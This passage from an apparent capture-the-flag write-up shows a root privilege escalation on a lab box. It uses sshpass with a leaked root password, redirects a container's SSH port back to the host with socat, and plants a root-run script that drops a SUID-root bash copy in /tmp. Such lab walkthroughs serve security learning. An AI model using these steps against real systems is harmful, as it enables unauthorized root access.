 It turns out the container is being reset to a clean start every couple minutes. So I did the next part in a single line so I could easily recover when it does:

```

solr@laser:/tmp$ sshpass -p c413d115b3d87664499624e7826d8c5a scp socat root@172.18.0.2:/tmp/socat; sshpass -p c413d115b3d87664499624e7826d8c5a ssh root@172.18.0.2 'chmod +x /tmp/socat; service ssh stop; /tmp/socat tcp-listen:22,reuseaddr,fork tcp:172.18.0.1:22'
 * Stopping OpenBSD Secure Shell server sshd
   ...done.

```

That breaks into a few commands:
- copies socat to the container using `scp`
- connects via `ssh` and runs:
  - `chmod +x /tmp/socat` - make `socat` executable
  - `service stop ssh` - stop the SSH server listening on 22
  - `/tmp/socat tcp-listen:22,reuseaddr,fork tcp:172.18.0.1:22` - start tunnel back to host

If I touch `/tmp/clear.sh`, and then wait for the minute to roll over, it will be gone.

#### Overwrite clear.sh - Fail

My first attempt was to watch for the existence of `clear.sh` and then change it. This loop will do that:

```

solr@laser:/tmp$ while [ ! -f /tmp/clear.sh ]; do echo -en "\r$(date)"; done; ls -l clear.sh; echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > clear.sh
Sun 13 Sep 2020 05:12:03 PM UTC-rwxr-xr-x 1 root root 59 Sep 13 17:12 clear.sh
-bash: clear.sh: Permission denied

```

Unfortunately, I can see that the file, when it exists, is owned by root and not writable, so when I try to write to it, I get an error.

#### Write First

I’ll write what I want to do into `/tmp/clear.sh`, and then I set it not writable. When the script tries to `scp` into that file, it will fail. However, the default behavior of a `bash` script is to continue on the next line after a failure (you can use the `set -e` command to [change that](https://intoli.com/blog/exit-on-errors-in-bash-scripts/)). When the script continues, it will log in with `ssh` (through the container back into itself) and run my script.

First create it the script:

```

solr@laser:/tmp$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > clear.sh

```
